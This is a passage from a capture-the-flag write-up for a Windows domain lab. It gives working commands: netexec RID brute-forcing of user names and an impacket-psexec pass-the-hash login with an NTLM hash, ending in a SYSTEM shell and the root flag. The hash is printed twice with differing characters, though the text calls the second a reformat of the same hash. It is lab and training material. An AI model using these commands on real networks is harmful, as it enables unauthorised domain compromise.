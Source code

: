 ```nxc smb 10.201.122.119 -u "guests" -p "" --rid-brute | awk '{split($6,a,"\\"); print a[2]}' > users.txt```


Why: psexec exploits administrative SMB access to execute commands as SYSTEM. The empty LM hash (:) was used since only the NT hash was available.
Initial Issue: The first attempt failed due to incorrect hash formatting:

impacket-psexec -hashes "e41da7e79a4c76dbd9df79d1cb325559" SOUPEDECODE.LOCAL/'Fileserver$'@10.201.122.119


Error: ValueError: not enough values to unpack (expected 2, got 1) indicated that psexec expected LMhash:NThash.
Fix: I reformatted the hash as :e41da7e79a4476dbd9cf79d1cb325559, which succeeded.
Output: A SYSTEM shell was obtained:

whoami/all
nt authority\system


# Step 9: Retrieving the Root Flag
In the SYSTEM shell, I navigated to the Administrator’s Desktop and retrieved the root.txt flag:
```cd C:\Users\Administrator\Desktop
type root.txt```


Output: The root.txt flag was 27cb2be3027388d63d77c86bfdd5f56a.


# Summary

User Flag: Obtained by accessing the Users\ybob317\Desktop directory with the ybob317:ybob317 credentials.
Root Flag: Obtained by performing a pass-the-hash attack with the FileServer$ account’s NTLM hash, gaining a SYSTEM shell, and reading root.txt from the Administrator’s Desktop.
Key Techniques:
Network scanning with nmap to identify services.
SMB share enumeration with smbclient and netexec.
RID brute-forcing to enumerate users.
Credential brute-forcing to find valid credentials.
Pass-the-hash with impacket-psexec for privilege escalation.



### This CTF demonstrated the importance of thorough enumeration, exploiting weak credentials, and leveraging misconfigured backup files to achieve domain compromise.
